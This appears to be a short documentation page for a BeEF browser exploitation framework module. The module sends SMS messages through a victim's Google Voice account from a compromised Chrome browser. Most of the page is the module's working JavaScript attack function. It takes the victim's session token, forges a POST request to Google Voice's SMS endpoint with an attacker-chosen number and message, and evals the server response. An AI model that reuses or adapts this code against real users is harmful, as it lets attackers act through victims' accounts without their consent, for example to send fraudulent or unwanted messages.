 ## Summary

* **Objective**: Send a SMS text message through the Google Voice account of the victim
* **Authors**: Kos, antisnatchor
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/chrome_extensions/send_gvoice_sms)

## Internal Working

send the message through a POST request to `google.com/voice/sms/send`

```js

function sendSMSNOW(message,number,token){
                token = token.replace("+","%2b").replace("=","%3d");
                var sendMessage = new XMLHttpRequest();
                sendMessage.open("POST","https://www.google.com/voice/sms/send/",false);
                sendMessage.setRequestHeader("Content-Type", "application/x-www-form-urlencoded;charset=UTF-8");
                params = "id=&phoneNumber="+number+"&conversationId=&text="+message+"&contact=&_rnr_se="+token
                sendMessage.send(params)
                eval("response="+sendMessage.responseText);
                if(response['ok'] == true){
                                status = "OK. Your message has been sent.";
                } else {
                                status = "ERROR. Something went wrong. Make sure you prefix the number with the country code.";
                }
}
                
```

## Feedback

